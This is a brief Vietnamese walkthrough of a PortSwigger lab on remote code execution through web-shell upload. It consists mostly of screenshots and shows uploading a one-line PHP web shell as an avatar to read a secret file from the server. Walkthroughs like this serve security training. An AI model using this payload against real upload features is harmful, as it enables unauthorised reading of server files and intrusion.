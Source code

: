 # [Lab 1: Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/36becddd-1e44-43db-b4b8-37a180826a3a)
Sau khi đã đăng nhập, sử dụng function Upload avatar để tải lên 1 file
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/22405f76-5f74-4479-8896-648e1935a875)

Thử update 1 file webshell có nội dung `<?php echo file_get_contents('/home/carlos/secret');?>`
→ thông báo đã update thành công
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/94c2c861-0d65-4aee-b872-1a39c2fb378b)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/0c9f92c5-d776-4ccf-bd1e-a739ef4a3b0c)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/42f2af3f-f50b-49da-b8fb-43a6e2c07b97)

Xem nội dung file vừa update → đã lấy được content
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/f79d3c46-4399-4755-9378-804128af84fa)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/711a4383-628c-422c-9b18-16b6679b19b9)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/01c8d60a-ad8f-4e62-bd17-403a83a7157b)

submit and solve the lab
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/5cc528d5-ca04-44c1-aecc-5459bed75a62)

